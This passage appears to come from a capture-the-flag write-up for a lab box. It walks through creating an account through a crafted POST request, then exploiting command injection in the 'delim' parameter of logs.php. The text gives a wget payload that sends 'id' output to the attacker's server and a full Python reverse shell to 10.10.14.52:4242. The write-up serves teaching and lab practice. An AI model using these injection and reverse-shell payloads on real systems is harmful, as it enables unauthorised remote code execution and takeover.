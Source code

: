 
Looking at `nav.php` we found the `accounts.php` page with an automatic redirection to the login page
we look at the HTML and send the post request required to create an account
using Burp. We can then login as our user on the application


    :::text
    POST /accounts.php HTTP/1.1
    Host: 10.129.193.153
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 51
    Connection: close
    Cookie: PHPSESSID=uu672fe9ecq5640am2fgsekhbk
    Upgrade-Insecure-Requests: 1

    username=toto1&password=12345&confirm=12345&submit=


We can download the `siteBackup` file on the server.
The `logs.php` file seems to be called when we want to get the log data via the management menu.
We can see that the POST parameter `delim` is not sanitize and use directly in an `exec` statement.
We can use that to run code on the box. We run a simple python HTTP server (`python3 -m http.server`)
and using Burp repeater put the following payload in the `delim` parameter:

    :::text
    POST /logs.php HTTP/1.1
    Host: 10.129.193.153
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 35
    Origin: http://10.129.193.153
    Connection: close
    Referer: http://10.129.193.153/file_logs.php
    Cookie: PHPSESSID=uu672fe9ecq5640am2fgsekhbk
    Upgrade-Insecure-Requests: 1

    delim=; wget 10.10.14.52:8000/$(id)


We got the RCE on our web server:
`10.129.193.153 - - [28/Aug/2021 09:06:34] "GET /uid=33(www-data) HTTP/1.1" 404 -`

We know that python is on the box so we use a basic python reverse shell. The
payload is the following:

`delim=; python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.52",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
